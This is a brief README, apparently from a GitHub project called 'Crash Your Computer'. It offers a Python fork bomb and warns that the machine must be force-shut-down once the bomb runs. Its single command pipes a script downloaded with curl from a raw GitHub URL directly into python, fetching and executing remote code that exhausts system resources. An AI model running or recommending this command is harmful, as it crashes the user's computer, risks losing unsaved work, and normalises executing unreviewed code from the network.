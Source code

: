 CRASH YOUR COMPUTER
===========================

# 1. A Python Fork Bomb
**WARNING**: I tested this in macOS. Once executed, you have to force shutdown (hold the power button) to stop it. So, make sure all your documents saved.
```bash
curl https://raw.githubusercontent.com/SimGenius/Crash-Your-Computer/master/forkbomb.py | python
```
